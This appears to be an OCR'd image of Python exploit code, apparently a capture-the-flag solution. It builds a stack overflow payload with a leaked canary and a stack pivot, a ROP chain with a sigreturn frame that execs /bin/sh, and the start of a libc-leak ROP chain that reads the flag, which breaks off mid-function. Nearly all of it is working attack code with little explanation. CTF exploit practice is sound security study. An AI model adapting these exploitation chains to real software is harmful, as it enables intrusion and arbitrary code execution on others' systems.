 ```python  
   p += chain  
   if len(p) > 512:  
       raise Exception("paylod too big! Max 512, was: {}".format(len(p)))

   io.sendline(p)  
   io.recvuntil("tag id: ")  
   heap_addr = int(io.recvline()[:-1])

   p = b"A"*72  
   p += pack(cookie)  
   p += pack(heap_addr & 0xfffffffffffff000) # rbp  
   p += pack(pop_rsp)   # pop rsp; pop r13; pop r14; pop r15; ret;  
   p += pack(heap_addr) # pop to esp  
   io.sendline(p)

   return heap_addr

def do_execve_shell():  
   """  
   This exploit uses ROP to read in a /bin/sh string and then uses a sigreturn  
   to execve and get a shell. Due to the anti-debugging measures in the
offical  
   binary (it runs the ptrace syscall), this only works on patched binaries
and  
   not the real flag, but was part of my exploit development so I kept it  
   around for example purposes. The ptrace makes it so that execve sycalls get  
   SIGTRAP'd which stops them from executing.  
   """  
   io = start()

   bin_sh_addr = 0x404000  
   r = ROP(exe)  
   r.readStr(bin_sh_addr, 0xff)  
   r.raw(clear_eax)  
   r.raw(0) # pad because the clear_eax has an extra pop  
   r.raw(sigreturn)

   frame = SigreturnFrame()  
   frame.rax = constants.SYS_execve  
   frame.rdi = bin_sh_addr  
   frame.rsi = 0  
   frame.rdx = 0  
   frame.rip = syscall

   do_rop(io, r.chain() + bytes(frame))

   io.clean()  
   io.sendline("/bin/sh")  
   io.interactive()

def do_libc_exploit():  
   """  
   This exploit leaks libc addresses from GOT to calculate the base address  
   and leverages that to ROP an open/read/write flow to get the flag.  
   """  
   io = start()  
   data_writable = 0x404f00  
   flag_addr = 0x404e00

   # First ROP is to leak the heap address and set us up for another.  
   r = ROP(exe)  
   r.puts(exe.got['puts'])  
   r.puts(exe.got['malloc'])  
```